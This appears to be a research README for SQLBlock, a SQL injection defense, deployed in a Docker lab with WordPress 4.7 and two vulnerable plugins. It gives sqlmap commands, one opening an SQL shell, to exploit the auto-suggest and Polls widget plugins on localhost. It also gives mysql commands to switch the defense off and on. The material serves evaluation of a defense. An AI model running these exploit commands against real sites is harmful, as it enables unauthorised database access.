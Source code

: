 # SQLBlock defense deployed on WordPress's plugins

You can download an already setup docker container from the below link
[wordpress.tar](https://drive.google.com/drive/folders/1sJslTelkODYPgtIoTWXD_lI-ws3kjLom)

## Running the docker
To run the docker, you should first load the tarball file using the following command.
```bash
docker load -i sqlblock_wordpress.tar
```

You can use the following command to run the docker container.
```bash
docker run --name sqlblock-container -d --rm -p 9000:80 -it sqlblock_wordpress
```

This docker container includes WordPress 4.7 and two plugins which has SQLi vulnerabilities. The docker container is already loaded with the profile of benign browsing in WordPress which includes only simple actions.


## Exploit the vulnerabilities

In the prepared docker container, SQLBlock is defending against the SQli requests. You can turn off SQLBlock using the following command.
```bash
mysql -u root -e "UNINSTALL PLUGIN sqlblock"
```

You can turn SQLBlcok back on, either using the script called `enforce_profile` or you can run the following command.
```bash
mysql -u root -e "INSTALL PLUGIN sqlblock SONAME 'sqlblock.so'"
```

You can exploit the vulnerabilities in Poll widget and autosuggest plugin using sqlmap tool. You can download sqlmap from this [link](https://drive.google.com/drive/folders/1sJslTelkODYPgtIoTWXD_lI-ws3kjLom).

# Auto-suggest vulnerability
You can run the following command to perform the SQLi exploit on auto-suggest plugin in WordPress.
```bash
./sqlmap-dev/sqlmap.py --flush-session -u "http://localhost:9000/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1" --technique BT --dbms MYSQL --risk 3 --level 5 -p wpas_keys --tamper space2comment --sql-shell
```

# Polls widget vulnerability

First, you need to record a benign request while you participate in poll. You can record the request using Burp suite tool downloaded from this [link](https://portswigger.net/burp/communitydownload).

- After running Burp suite, go to proxy tab and turn on intercepting mode. In the option tab you see the IP and port for the interception. You should modify your browser's proxy setting according to the information in the proxy tab of Burp suite.
- Web browsers by default do not intercept the local requests. To change that you should follow the instruction for intercepting Localhost traffic. You can follow the instruction for Firefox [here](https://security.stackexchange.com/questions/142552/how-to-configure-burp-suite-for-localhost-application).
- Visit the URL <http://localhost:9000/?p=4>. There is poll in this blog post, which you can submit your answer and record the request sent to the server using Burp suite
- After observing the request in Burp suite, you can right-click and use the "save to file" option to save the request for submitting an answer to the poll.


To exploit the vulnerability in Polls widget you can use the following command. Note that you should replace the `path_to_saved_requset`.

```bash
./sqlmap-dev/sqlmap.py --flush-session -r %path_to_saved_request% -p question_id --tamper space2comment
```

